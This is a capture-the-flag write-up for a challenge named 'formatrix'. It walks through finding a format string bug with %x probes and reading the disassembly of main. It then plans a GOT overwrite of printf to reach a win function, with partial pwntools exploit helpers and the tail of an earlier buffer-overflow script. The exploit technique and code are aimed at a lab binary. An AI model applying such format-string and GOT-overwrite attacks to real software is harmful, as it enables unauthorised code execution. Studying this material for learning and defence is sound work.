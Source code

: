 ```
print(hex(get_name_buffer))

p.sendline(bof_payload)

p.interactive()
```

formatrix
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
- Incorrect write of the last byte: Initially I was using %x with a width modifier to increase the "number of bytes written so far". The last byte of data to write required 4 more byte to have been written first. Given a hex value off the stack if 4 bytes I thought %x would work but for some reason I kept getting an incorrect value getting written. At the time I solved this using %c but the actual cause of the problem was my check for whether to overflow when writing in `get_n` was off by 4.

Script/Command used (Writeup)
------------------
Running `checksec` reveals there is no RELRO and no PIE enabled.
We test for a format string vulnerability and find there is one, and there is a nice 4 byte alignment:
```
You say: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA f7ead580 804858c 41414141 65376620 38356461 30382030 38353834 31342063 31343134 36203134 36373335 20303236 35333833 31363436 33303320 33303238 38332030 38333533 33203433 32343331 20333630 34333133 34333133 32363320
```
So if we get rid of the A's whatever we input will start at stack offset 3. Let's look at `main`:
```
push    eax {var_618}
push    0x200
lea     eax, [ebp-0x208 {var_210}]
push    eax {var_210} {var_620_2}
call    fgets
add     esp, 0x10
sub     esp, 0x8
lea     eax, [ebp-0x208 {var_210}]
push    eax {var_210} {var_61c}
lea     eax, [ebp-0x608 {var_610}]
push    eax {var_610} {var_620_3}
call    sprintf
```

After `fgets` is called, `sprintf` is used (source of format string vuln). Shortly after `printf` is also called. Since there is no RELRO or PIE we can overwrite the GOT. We can use `sprintf` to run our exploit and overwrite the GOT entry for `printf` since by then we don't care about it. Conveniently there is a `win` function for us to use.
In binary ninja we find that the GOT entry for `printf` is at address `0x08049c18`.
Exploit:
```
from pwn import *

def get_n(new, prev, size):
    while new <= prev:
        new += (1 << size)
    return new-prev

def gen_addrs(base_addr):
    addrs = b''
    for i in range(4):
        addrs += p32(base_addr + i)
    return addrs

```